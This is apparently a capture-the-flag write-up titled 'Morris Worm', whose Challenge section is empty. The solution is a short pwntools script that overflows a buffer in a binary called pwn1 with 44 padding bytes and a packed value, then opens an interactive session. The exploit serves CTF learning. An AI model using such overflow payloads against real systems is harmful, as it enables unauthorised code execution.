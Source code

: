 # Morris Worm
## Challenge


## Solution
```py
#!/usr/bin/env python3
from pwn import args, remote, p32, process

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Binary Exploitation